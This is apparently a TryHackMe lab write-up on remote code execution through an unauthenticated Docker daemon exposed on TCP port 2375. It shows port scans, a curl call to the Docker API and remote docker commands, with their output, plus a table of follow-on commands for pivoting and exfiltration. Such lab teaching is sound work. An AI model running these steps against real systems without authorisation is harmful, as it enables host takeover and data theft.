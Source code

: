 ```yaml
---
title: "Remote Code Execution via Exposed Docker Daemon"
date: 2024-09-01 07:09:22
categories: [Docker]
tags: [Docker, THM]
---
```


## The Docker Engine TCP Sockets Edition

"The Docker Engine TCP Sockets Edition" refers to a configuration where the Docker daemon, the core component of the Docker Engine, is set up to listen for connections on a TCP socket instead of the default Unix socket, allowing external clients to connect to the Docker Engine over the network using a standard TCP port, rather than relying on a local Unix socket file located on the host machine. 

Docker can be remotely administrated. For example, using management tools such as [Portainer](https://www.portainer.io/) or [Jenkins](https://www.jenkins.io/) to deploy containers to test their code (yay, automation!).

## The Vulnerability

The Docker Engine will listen on a port when configured to be run remotely. The Docker Engine is easy to make remotely accessible but difficult to do securely. The vulnerability here is Docker is remotely accessible and allows anyone to execute commands. First, we will need to enumerate.

Enumerating: Finding Out if a Device Has Docker Remotely Accessible

By default, the engine will run on **port 2375.** We can confirm this by performing an Nmap scan against your target (10.10.62.80) from your AttackBox.

```
[iamroot@parrot]$ nmap -sV -p 2375 10.10.62.80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 21:37 IST
Nmap scan report for 10.10.62.80
Host is up (0.48s latency).

PORT     STATE SERVICE VERSION
2375/tcp open  docker  Docker 20.10.20 (API 1.41)
Service Info: OS: linux

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.58 seconds

```



```
[iamroot@parrot]$ naabu -p - 10.10.62.80

                  __
  ___  ___  ___ _/ /  __ __
 / _ \/ _ \/ _ \/ _ \/ // /
/_//_/\_,_/\_,_/_.__/\_,_/ v2.0.5

		projectdiscovery.io

Use with caution. You are responsible for your actions
Developers assume no liability and are not responsible for any misuse or damage.
[INF] Running CONNECT scan with non root privileges
[INF] Found 3 ports on host 10.10.62.80 (10.10.62.80)
10.10.62.80:2222
10.10.62.80:22
10.10.62.80:2375

```

Looks like it's open; we're going to use the `curl` command to start interacting with the exposed Docker daemon. Confirming that we can access the Docker daemon: `curl http://10.10.62.80:2375/version`


```
[iamroot@parrot]$ curl http://10.10.62.80:2375/version

{"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"20.10.20","Details":{"ApiVersion":"1.41","Arch":"amd64","BuildTime":"2022-10-18T18:18:12.000000000+00:00","Experimental":"false","GitCommit":"03df974","GoVersion":"go1.18.7","KernelVersion":"5.15.0-1022-aws","MinAPIVersion":"1.12","Os":"linux"}},{"Name":"containerd","Version":"1.6.8","Details":{"GitCommit":"9cd3357b7fd7218e4aec3eae239db1f68a5a6ec6"}},{"Name":"runc","Version":"1.1.4","Details":{"GitCommit":"v1.1.4-0-g5fd4c4d"}},{"Name":"docker-init","Version":"0.19.0","Details":{"GitCommit":"de40ad0"}}],"Version":"20.10.20","ApiVersion":"1.41","MinAPIVersion":"1.12","GitCommit":"03df974","GoVersion":"go1.18.7","Os":"linux","Arch":"amd64","KernelVersion":"5.15.0-1022-aws","BuildTime":"2022-10-18T18:18:12.000000000+00:00"}

```

## Executing Docker Commands on Our Target

For this, we'll need to tell our version of Docker to send the command to our target (not our own machine). We can add the "-H" switch to our target. To test if we can run commands, we'll list the containers on the target: `docker -H tcp://10.10.62.80:2375 ps`

```
[iamroot@parrot]$ docker -H tcp://10.10.62.80:2375 ps

CONTAINER ID   IMAGE        COMMAND               CREATED        STATUS             PORTS                               NAMES
7b7461f9882e   dockertest   "/usr/sbin/sshd -D"   4 months ago   Up About an hour   0.0.0.0:22->22/tcp, :::22->22/tcp   beautiful_pasteur


```

## What Now

Now that we've confirmed that we can execute docker commands on our target, we can do all sorts of things. For example, start containers, stop containers, delete them, or export the contents of the containers for us to analyse further. It is worth recalling the commands covered in [Intro to Docker](https://tryhackme.com/room/introtodockerk8pdqk). However, I've included some commands that you may wish to explore:


| **Command  <br>** | **Description  <br>**                                                                                                                         |
| ----------------- | --------------------------------------------------------------------------------------------------------------------------------------------- |
| network ls        | Used to list the networks of containers, we could use this <br>to discover other applications running and pivot to them <br>from our machine! |
| images            | List images used by containers; data can also be exfiltrated <br>by reverse-engineering the image.                                            |
| exec              | Execute a command on a container.                                                                                                             |
| run               | Run a container.                                                                                                                              |
